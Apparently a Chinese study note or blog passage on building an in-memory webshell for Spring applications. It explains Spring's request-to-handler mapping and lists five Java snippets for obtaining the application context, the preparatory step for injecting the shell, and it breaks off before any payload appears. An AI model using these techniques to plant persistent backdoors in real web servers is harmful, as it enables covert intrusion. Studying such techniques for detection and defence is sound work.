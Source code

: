 ![image-20220421184720102](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220421184720102.png)

[详细请求调用流程](https://www.cnblogs.com/w-y-c-m/p/8416630.html)

lookupPath就是请求的相对地址,比如/user/login

当一次请求进来的时候,首先会在`AbstractHandlerMethodMapping#lookupHandlerMethod`方法中获取直接匹配的`RequestMappingInfos`列表

如果没有匹配的`RequestMappingInfos`,则遍历所有的`MappingRegistry.mappingLookup`中保存的所有`RequestMappingInfos`

最后,获取最佳匹配的 RequestMappingInfo 对应的 HandlerMethod

![image-20220421185007532](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220421185007532.png)

大概原理跟着顺了一遍

## 获取context

想要添加内存马,都必须得获取context

不明所以,先把代码粘贴过来

能用的只有4和5了

```java
// 1 ContextLoader类专门负责root application context初始化
// ContextLoader的一个主要方法就是 initWebApplicationContext
WebApplicationContext context = ContextLoader.getCurrentWebApplicationContext();

// 2 spring 5的WebApplicationContextUtils已经没有getWebApplicationContext方法
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()).getServletContext());

// 3 类似2
WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());

// 4
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

// 5
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
filed.setAccessible(true);
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();

```

获取context应该算是所有内存马最重要的地方了吧,因为context作为上下文对象,它里面往往存储了很多承接多个功能模块的信息,这些信息中往往就存在着能注入内存马的部分

##### 方法一

获得的context不能`getBean(RequestMappingHandlerMapping.class)`,会抛出一个找不到这个bean的异常
